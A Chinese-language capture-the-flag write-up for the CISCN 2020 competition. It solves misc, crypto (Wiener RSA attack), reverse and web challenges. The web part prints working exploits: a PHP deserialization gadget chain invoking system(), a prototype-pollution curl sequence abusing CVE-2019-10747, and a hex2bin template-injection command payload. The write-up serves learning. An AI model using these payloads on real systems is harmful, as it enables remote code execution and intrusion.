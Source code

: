 ```yaml
---
sidebar: auto
---
```


# CISCN 2020

## misc

### 签到

第一次见只需要等着就能拿到的签到flag。

`flag{同舟共济扬帆起，乘风破浪万里航。}`

### the_best_ctf_game

拿到了个奇怪的文件。。github搜文件头找到了文件架构：[o-o-overflow/dc2020f-parallel-af-public][parallel-af]，怎奈代码跑不起来。

转头一看，另一位师傅做出来了。做出来的方式非常misc：

![](./img/2020-ciscn-ctf_game.png)

flag就明晃晃地写在文件里。

`flag{65e02f26-0d6e-463f-bc63-2df733e47fbe}`

### 电脑被黑

没啥技术难度的磁盘取证，被删的文件可以用[extundelete][extundelete]恢复，之后就是道没啥技术难度的逆向，解密恢复的flag文件。

加密算法是为flag的42个字符分别生成系数进行异或等运算。解密脚本如下：

```python
#!/usr/bin/env python3

v4 = []
v4t = 34
for i in range(43):
    v4.append(v4t)
    v4t += 34
    v4t &= 0xff

v5 = []
v5t = 0
for i in range(43):
    v5.append(v5t)
    v5t = (v5t + 2) & 0xf

with open('flag.txt', 'rb') as f:
    flag = bytearray(f.read())

for i in range(42, -1, -1):
    flag[i] = ((((flag[i]) ^ v4[i]) & 0xff) - v5[i]) & 0xff

print(flag)
```

`flag{e5d7c4ed-b8f6-4417-8317-b809fc26c047}`

## crypto

### bd

看到`e`很大，怀疑`d`较小，尝试使用低解密指数攻击。

<details>
<summary>脚本如下：</summary>
```python
#!/usr/bin/env python3

def rational_to_contfrac(x, y):
    '''
    Converts a rational x/y fraction into
    a list of partial quotients [a0, ..., an]
    '''
    a = x//y
    if a * y == x:
        return [a]
    else:
        pquotients = rational_to_contfrac(y, x - a * y)
        pquotients.insert(0, a)
        return pquotients


def convergents_from_contfrac(frac):
    '''
    computes the list of convergents
    using the list of partial quotients
    '''
    convs = []
    for i in range(len(frac)):
        convs.append(contfrac_to_rational(frac[0:i]))
    return convs


def contfrac_to_rational(frac):
    '''Converts a finite continued fraction [a0, ..., an]
    to an x/y rational.
    '''
    if len(frac) == 0:
        return (0, 1)
    elif len(frac) == 1:
        return (frac[0], 1)
    else:
        remainder = frac[1:len(frac)]
        (num, denom) = contfrac_to_rational(remainder)
        # fraction is now frac[0] + 1/(num/denom), which is
        # frac[0] + denom/num.
        return (frac[0] * num + denom, num)


def egcd(a, b):
    '''
    Extended Euclidean Algorithm
    returns x, y, gcd(a,b) such that ax + by = gcd(a,b)
    '''
    u, u1 = 1, 0
    v, v1 = 0, 1
    while b:
        q = a // b
        u, u1 = u1, u - q * u1
        v, v1 = v1, v - q * v1
        a, b = b, a - q * b
    return u, v, a


def gcd(a, b):
    '''
    2.8 times faster than egcd(a,b)[2]
    '''
    a, b = (b, a) if a < b else (a, b)
    while b:
        a, b = b, a % b
    return a


def modInverse(e, n):
    '''
    d such that de = 1 (mod n)
    e must be coprime to n
    this is assumed to be true
    '''
    return egcd(e, n)[0] % n


def totient(p, q):
    '''
    Calculates the totient of pq
    '''
    return (p-1)*(q-1)


def bitlength(x):
    '''
    Calculates the bitlength of x
    '''
    assert x >= 0
    n = 0
    while x > 0:
        n = n+1
        x = x >> 1
    return n


def isqrt(n):
    '''
    Calculates the integer square root
    for arbitrary large nonnegative integers
    '''
    if n < 0:
        raise ValueError('square root not defined for negative numbers')

    if n == 0:
        return 0
    a, b = divmod(bitlength(n), 2)
    x = 2**(a+b)
    while True:
        y = (x + n//x)//2
        if y >= x:
            return x
        x = y


def is_perfect_square(n):
    '''
    If n is a perfect square it returns sqrt(n),

    otherwise returns -1
    '''
    h = n & 0xF  # last hexadecimal "digit"

    if h > 9:
        return -1  # return immediately in 6 cases out of 16.

    # Take advantage of Boolean short-circuit evaluation
    if (h != 2 and h != 3 and h != 5 and h != 6 and h != 7 and h != 8):
        # take square root if you must
        t = isqrt(n)
        if t*t == n:
            return t
        else:
            return -1

    return -1


def hack_RSA(e, n):

    frac = rational_to_contfrac(e, n)
    convergents = convergents_from_contfrac(frac)

    for (k, d) in convergents:
        # check if d is actually the key
        if k != 0 and (e*d-1) % k == 0:
            phi = (e*d-1)//k
            s = n - phi + 1
            # check if the equation x^2 - s*x + n = 0
            # has integer roots
            discr = s*s - 4*n
            if(discr >= 0):
                t = is_perfect_square(discr)
                if t != -1 and (s+t) % 2 == 0:
                    print("\nHacked!")
                    return d


def main():

    n = 86966590627372918010571457840724456774194080910694231109811773050866217415975647358784246153710824794652840306389428729923771431340699346354646708396564203957270393882105042714920060055401541794748437242707186192941546185666953574082803056612193004258064074902605834799171191314001030749992715155125694272289
    e = 46867417013414476511855705167486515292101865210840925173161828985833867821644239088991107524584028941183216735115986313719966458608881689802377181633111389920813814350964315420422257050287517851213109465823444767895817372377616723406116946259672358254060231210263961445286931270444042869857616609048537240249
    d = hack_RSA(e, n)
    print("d=")
    print(d)


if __name__ == '__main__':
    main()
```
</details>

求出`d`的值，使用下列脚本解密flag：

```python
from Crypto.Util.number import *
d = 1485313191830359055093545745451584299495272920840463008756233
c = 37625098109081701774571613785279343908814425141123915351527903477451570893536663171806089364574293449414561630485312247061686191366669404389142347972565020570877175992098033759403318443705791866939363061966538210758611679849037990315161035649389943256526167843576617469134413191950908582922902210791377220066
n = 86966590627372918010571457840724456774194080910694231109811773050866217415975647358784246153710824794652840306389428729923771431340699346354646708396564203957270393882105042714920060055401541794748437242707186192941546185666953574082803056612193004258064074902605834799171191314001030749992715155125694272289
m = pow(c, d, n)
print(long_to_bytes(m))
```

`flag{d3752538-90d0-c373-cfef-9247d3e16848}`

## rev

### z3

主函数F5，扑面而来的线性方程组。往常都是转成matlab代码交给在线IDE跑的，这次正好借机学一学z3怎么用。

<details>
<summary>脚本如下：</summary>
```python
#!/usr/bin/env python3

from z3 import *

dst = [
    20247, 40182, 36315, 36518, 26921, 39185, 16546, 12094, 25270, 19330,
    18540, 16386, 21207, 11759, 10460, 25613, 21135, 24891, 18305, 27415,
    12855, 10899, 24927, 20670, 22926, 18006, 23345, 12602, 12304, 26622,
    19807, 22747, 14233, 24736, 10064, 14169, 35155, 28962, 33273, 21796,
    35185, 14877
]

v5 = [Int('v5_%d' % i) for i in range(42)]

sol = Solver()
sol.add(dst[0] == 34 * v5[3] + 12 * v5[0] + 53 * v5[1] + 6 * v5[2] + 58 * v5[4] + 36 * v5[5] + v5[6])
sol.add(dst[1] == 27 * v5[4] + 73 * v5[3] + 12 * v5[2] + 83 * v5[0] + 85 * v5[1] + 96 * v5[5] + 52 * v5[6])
sol.add(dst[2] == 24 * v5[2] + 78 * v5[0] + 53 * v5[1] + 36 * v5[3] + 86 * v5[4] + 25 * v5[5] + 46 * v5[6])
sol.add(dst[3] == 78 * v5[1] + 39 * v5[0] + 52 * v5[2] + 9 * v5[3] + 62 * v5[4] + 37 * v5[5] + 84 * v5[6])
sol.add(dst[4] == 48 * v5[4] + 14 * v5[2] + 23 * v5[0] + 6 * v5[1] + 74 * v5[3] + 12 * v5[5] + 83 * v5[6])
sol.add(dst[5] == 15 * v5[5] + 48 * v5[4] + 92 * v5[2] + 85 * v5[1] + 27 * v5[0] + 42 * v5[3] + 72 * v5[6])
sol.add(dst[6] == 26 * v5[5] + 67 * v5[3] + 6 * v5[1] + 4 * v5[0] + 3 * v5[2] + 68 * v5[6])
sol.add(dst[7] == 34 * v5[10] + 12 * v5[7] + 53 * v5[8] + 6 * v5[9] + 58 * v5[11] + 36 * v5[12] + v5[13])
sol.add(dst[8] == 27 * v5[11] + 73 * v5[10] + 12 * v5[9] + 83 * v5[7] + 85 * v5[8] + 96 * v5[12] + 52 * v5[13])
sol.add(dst[9] == 24 * v5[9] + 78 * v5[7] + 53 * v5[8] + 36 * v5[10] + 86 * v5[11] + 25 * v5[12] + 46 * v5[13])
sol.add(dst[10] == 78 * v5[8] + 39 * v5[7] + 52 * v5[9] + 9 * v5[10] + 62 * v5[11] + 37 * v5[12] + 84 * v5[13])
sol.add(dst[11] == 48 * v5[11] + 14 * v5[9] + 23 * v5[7] + 6 * v5[8] + 74 * v5[10] + 12 * v5[12] + 83 * v5[13])
sol.add(dst[12] == 15 * v5[12] + 48 * v5[11] + 92 * v5[9] + 85 * v5[8] + 27 * v5[7] + 42 * v5[10] + 72 * v5[13])
sol.add(dst[13] == 26 * v5[12] + 67 * v5[10] + 6 * v5[8] + 4 * v5[7] + 3 * v5[9] + 68 * v5[13])
sol.add(dst[14] == 34 * v5[17] + 12 * v5[14] + 53 * v5[15] + 6 * v5[16] + 58 * v5[18] + 36 * v5[19] + v5[20])
sol.add(dst[15] == 27 * v5[18] + 73 * v5[17] + 12 * v5[16] + 83 * v5[14] + 85 * v5[15] + 96 * v5[19] + 52 * v5[20])
sol.add(dst[16] == 24 * v5[16] + 78 * v5[14] + 53 * v5[15] + 36 * v5[17] + 86 * v5[18] + 25 * v5[19] + 46 * v5[20])
sol.add(dst[17] == 78 * v5[15] + 39 * v5[14] + 52 * v5[16] + 9 * v5[17] + 62 * v5[18] + 37 * v5[19] + 84 * v5[20])
sol.add(dst[18] == 48 * v5[18] + 14 * v5[16] + 23 * v5[14] + 6 * v5[15] + 74 * v5[17] + 12 * v5[19] + 83 * v5[20])
sol.add(dst[19] == 15 * v5[19] + 48 * v5[18] + 92 * v5[16] + 85 * v5[15] + 27 * v5[14] + 42 * v5[17] + 72 * v5[20])
sol.add(dst[20] == 26 * v5[19] + 67 * v5[17] + 6 * v5[15] + 4 * v5[14] + 3 * v5[16] + 68 * v5[20])
sol.add(dst[21] == 34 * v5[24] + 12 * v5[21] + 53 * v5[22] + 6 * v5[23] + 58 * v5[25] + 36 * v5[26] + v5[27])
sol.add(dst[22] == 27 * v5[25] + 73 * v5[24] + 12 * v5[23] + 83 * v5[21] + 85 * v5[22] + 96 * v5[26] + 52 * v5[27])
sol.add(dst[23] == 24 * v5[23] + 78 * v5[21] + 53 * v5[22] + 36 * v5[24] + 86 * v5[25] + 25 * v5[26] + 46 * v5[27])
sol.add(dst[24] == 78 * v5[22] + 39 * v5[21] + 52 * v5[23] + 9 * v5[24] + 62 * v5[25] + 37 * v5[26] + 84 * v5[27])
sol.add(dst[25] == 48 * v5[25] + 14 * v5[23] + 23 * v5[21] + 6 * v5[22] + 74 * v5[24] + 12 * v5[26] + 83 * v5[27])
sol.add(dst[26] == 15 * v5[26] + 48 * v5[25] + 92 * v5[23] + 85 * v5[22] + 27 * v5[21] + 42 * v5[24] + 72 * v5[27])
sol.add(dst[27] == 26 * v5[26] + 67 * v5[24] + 6 * v5[22] + 4 * v5[21] + 3 * v5[23] + 68 * v5[27])
sol.add(dst[28] == 34 * v5[31] + 12 * v5[28] + 53 * v5[29] + 6 * v5[30] + 58 * v5[32] + 36 * v5[33] + v5[34])
sol.add(dst[29] == 27 * v5[32] + 73 * v5[31] + 12 * v5[30] + 83 * v5[28] + 85 * v5[29] + 96 * v5[33] + 52 * v5[34])
sol.add(dst[30] == 24 * v5[30] + 78 * v5[28] + 53 * v5[29] + 36 * v5[31] + 86 * v5[32] + 25 * v5[33] + 46 * v5[34])
sol.add(dst[31] == 78 * v5[29] + 39 * v5[28] + 52 * v5[30] + 9 * v5[31] + 62 * v5[32] + 37 * v5[33] + 84 * v5[34])
sol.add(dst[32] == 48 * v5[32] + 14 * v5[30] + 23 * v5[28] + 6 * v5[29] + 74 * v5[31] + 12 * v5[33] + 83 * v5[34])
sol.add(dst[33] == 15 * v5[33] + 48 * v5[32] + 92 * v5[30] + 85 * v5[29] + 27 * v5[28] + 42 * v5[31] + 72 * v5[34])
sol.add(dst[34] == 26 * v5[33] + 67 * v5[31] + 6 * v5[29] + 4 * v5[28] + 3 * v5[30] + 68 * v5[34])
sol.add(dst[35] == 34 * v5[38] + 12 * v5[35] + 53 * v5[36] + 6 * v5[37] + 58 * v5[39] + 36 * v5[40] + v5[41])
sol.add(dst[36] == 27 * v5[39] + 73 * v5[38] + 12 * v5[37] + 83 * v5[35] + 85 * v5[36] + 96 * v5[40] + 52 * v5[41])
sol.add(dst[37] == 24 * v5[37] + 78 * v5[35] + 53 * v5[36] + 36 * v5[38] + 86 * v5[39] + 25 * v5[40] + 46 * v5[41])
sol.add(dst[38] == 78 * v5[36] + 39 * v5[35] + 52 * v5[37] + 9 * v5[38] + 62 * v5[39] + 37 * v5[40] + 84 * v5[41])
sol.add(dst[39] == 48 * v5[39] + 14 * v5[37] + 23 * v5[35] + 6 * v5[36] + 74 * v5[38] + 12 * v5[40] + 83 * v5[41])
sol.add(dst[40] == 15 * v5[40] + 48 * v5[39] + 92 * v5[37] + 85 * v5[36] + 27 * v5[35] + 42 * v5[38] + 72 * v5[41])
sol.add(dst[41] == 26 * v5[40] + 67 * v5[38] + 6 * v5[36] + 4 * v5[35] + 3 * v5[37] + 68 * v5[41])

if sol.check() == sat:
    ret = sol.model()
    for i in range(42):
        print(chr(ret[v5[i]].as_long()), end = '')
    print()
else:
    print('oops')
```
<details>

`flag{7e171d43-63b9-4e18-990e-6e14c2afe648}`

### hyperthreading

主函数启动了3个线程，等待了其中的两个。剩下的一个是反调用的：

```c
while ( !IsDebuggerPresent() )
    ;
printf("debug!\n");
exit(0);
```

被等待的两个线程对输入的flag进行各种加密处理。比较烦的是代码里`jmp $+1`、`call $+1`遍地都是。靠patch可以解决问题，但是要注意`call $+1`会向栈上推值（`$+2`），所以就算能patch掉，对栈的异常操作也会导致反编译出问题。

反调还没完，两个线程都在不断的读`fs:[0x30] + 2`处的一个字节，并将其用于算法当中：

```asm
.text:004011B4  mov     ebx, large fs:30h
.text:004011BB  movzx   ebx, byte ptr [ebx+2]
```

鉴于这是个Windows 32位程序，`fs[0x30]`处是进程的PEB，`fs:[0x30] + 2`处是`PEB.BeingDebugged`标志（参考：[Terminus Project][terminus]）。鉴于我们在静态分析，直接假定这里的值为0（程序没被调试时运行一定是正常的），就可以恢复出算法了：

```python
#!/usr/bin/env python3

target = [
    0xDD, 0x5B, 0x9E, 0x1D, 0x20, 0x9E, 0x90, 0x91, 0x90, 0x90, 
    0x91, 0x92, 0xDE, 0x8B, 0x11, 0xD1, 0x1E, 0x9E, 0x8B, 0x51, 
    0x11, 0x50, 0x51, 0x8B, 0x9E, 0x5D, 0x5D, 0x11, 0x8B, 0x90, 
    0x12, 0x91, 0x50, 0x12, 0xD2, 0x91, 0x92, 0x1E, 0x9E, 0x90, 
    0xD2, 0x9F
]

for c in target:
    c -= 0x23
    c &= 0xff
    c ^= 0x23
    c = ((c << 2) & 0xff) ^ ((c >> 6) & 0xff)
    print(chr(c), end = '')
    #print(hex(c), end = ' ')

print()
```

题不难，就是为了让反编译器能工作，patch花了不少时间，以至于刚刚patch完看到了程序逻辑，大师傅已经做完了。大师傅永远是你大师傅。

`flag{a959951b-76ca-4784-add7-93583251ca92}`

## web

### babyunserialize

由于本题环境和wmctf的webweb很相似，因此套用同一个payload：

```php
<?php
namespace DB{
    abstract class Cursor  implements \IteratorAggregate {}
}


namespace DB\SQL{
    class Mapper extends \DB\Cursor{
        protected
            $props=["quotekey"=>"system"],
            $adhoc=["ls -al"=>["expr"=>""]],
            $db;
        function offsetExists($offset){}
        function offsetGet($offset){}
        function offsetSet($offset, $value){}
        function offsetUnset($offset){}
        function getIterator(){}
        function __construct($val){
            $this->db = $val;
        }
    }
}
namespace CLI{
    class Agent {
        protected
            $server="";
        public $events;
        public function __construct(){
            $this->events=["disconnect"=>array(new \DB\SQL\Mapper(new \DB\SQL\Mapper("")),"find")];
            $this->server=&$this;


        }
    };
    class WS{}
}
namespace {
    echo urlencode(serialize(array(new \CLI\WS(),new \CLI\Agent())));
}
```

但执行过程中发现`system`被ban了，`passthru`也被ban了，试图进`phpinfo`里看看，但把这个payload中`$adhoc`的`ls -al`置空会报一个错：

![](./img/2020-ciscn-babyunserialize-1.png)

因此把`ls -al`的位置改成`1`执行`phpinfo`。出来了一部分：

![](./img/2020-ciscn-babyunserialize-2.png)

然后将`1`改成了`-1`成功执行完整`phpinfo`（参考：[`phpinfo()` 文档][phpinfo]），搜索flag发现有搜到：

![](./img/2020-ciscn-babyunserialize-3.png)

最终payload：`http://XXXXXXXX.ichunqiu.com/?flag=a%3A2%3A%7Bi%3A0%3BO%3A6%3A%22CLI%5CWS%22%3A0%3A%7B%7Di%3A1%3BO%3A9%3A%22CLI%5CAgent%22%3A2%3A%7Bs%3A9%3A%22%00%2A%00server%22%3Br%3A3%3Bs%3A6%3A%22events%22%3Ba%3A1%3A%7Bs%3A10%3A%22disconnect%22%3Ba%3A2%3A%7Bi%3A0%3BO%3A13%3A%22DB%5CSQL%5CMapper%22%3A3%3A%7Bs%3A8%3A%22%00%2A%00props%22%3Ba%3A1%3A%7Bs%3A8%3A%22quotekey%22%3Bs%3A7%3A%22phpinfo%22%3B%7Ds%3A8%3A%22%00%2A%00adhoc%22%3Ba%3A1%3A%7Bi%3A-1%3Ba%3A1%3A%7Bs%3A4%3A%22expr%22%3Bs%3A0%3A%22%22%3B%7D%7Ds%3A5%3A%22%00%2A%00db%22%3BO%3A13%3A%22DB%5CSQL%5CMapper%22%3A3%3A%7Bs%3A8%3A%22%00%2A%00props%22%3Ba%3A1%3A%7Bs%3A8%3A%22quotekey%22%3Bs%3A7%3A%22phpinfo%22%3B%7Ds%3A8%3A%22%00%2A%00adhoc%22%3Ba%3A1%3A%7Bi%3A-1%3Ba%3A1%3A%7Bs%3A4%3A%22expr%22%3Bs%3A0%3A%22%22%3B%7D%7Ds%3A5%3A%22%00%2A%00db%22%3Bs%3A0%3A%22%22%3B%7D%7Di%3A1%3Bs%3A4%3A%22find%22%3B%7D%7D%7D%7D`

`flag{fb96e72f-aa1d-4d47-b5f5-67d6fc313293}`

### easyphp

开环境是一个php审计，大致流程：开启一个子进程，如果该进程崩了就进else if，并且打印phpinfo，如果正常则进else，在这里有个`call_user_func_array`可以控制执行函数和参数，但参数限定了三个这里没法直接调用系统命令函数。

直接执行系统命令走不通，考虑到题干“怎么可能让进程崩掉”和php7.4.8的环境，可能考察的是调用该版本内置的php函数造成进程崩溃即php fatal error。将php内置函数用burpsuite传一遍发现有几个函数函数可以让进程崩溃进到phpinfo中，这里选择`is_callable`函数，phpinfo中有flag。

payload：`http://XXXXXXXX.ichunqiu.com/?a=is_callable`

![](./img/2020-ciscn-easyphp-1.png)

![](./img/2020-ciscn-easyphp-2.png)

`flag{4b8e3e8d-837c-4d43-88b9-8a87010b1edc}`

### littlegame

将附件下载下来是一个nodejs程序，同时加载进一个`set-value`模块，上网搜索发现`set-value`有CVE-2019-10747原型链污染的漏洞。本地跑起程序然后对路由进行审计，整个过程从`/SpawnPoint`开始，在`/Privilege`中调用了漏洞方法`setFn()`，这里的的`NewAttributeKey`和`NewAttributeValue`都可以控制，那么直接污染`__proto__`将`Admin`追加一个属性，使其在`/DeveloperControlPanel`路由中可以通过验证输出flag。

payload（curl版）：

```
$ curl -c cookies.txt http://XXXXXXXX.ichunqiu.com:8888/SpawnPoint
Let's begin!
$ curl -b cookies.txt -H 'Content-Type: application/json' -d '{"NewAttributeKey":"__proto__.password4","NewAttributeValue":"123"}' http://XXXXXXXX.ichunqiu.com:8888/Privilege
Let's have a check!
$ curl -b cookies.txt -H 'Content-Type: application/json' -d '{"key":"password4","password":"123"}' http://XXXXXXXX.ichunqiu.com:8888/DeveloperControlPanel
flag{7fae5d9b-2260-4472-a821-96ec1d6912b8}
$
```

`flag{7fae5d9b-2260-4472-a821-96ec1d6912b8}`

### rceme

经过查阅是zzzcms的一个改编源码。主要漏洞点在于`eval`函数的参数没采用白名单机制，造成参数绕过验证。这里没有过滤`hex2bin`，因此将`system`十六进制编码后用`hex2bin`动态拼接成`system('ls')`来执行系统命令。

payload: `{if:(hex2bin(‘73797374656d’))(‘ls‘)}{end if}`

`flag{423975f5-e1d3-481a-9165-f297ed481cfe}`

<!-- References -->

[parallel-af]: https://github.com/o-o-overflow/dc2020f-parallel-af-public
[extundelete]: http://extundelete.sourceforge.net/
[terminus]: http://terminus.rewolf.pl/terminus/structures/ntdll/_PEB_x86.html
[phpinfo]: https://www.php.net/manual/en/function.phpinfo.php

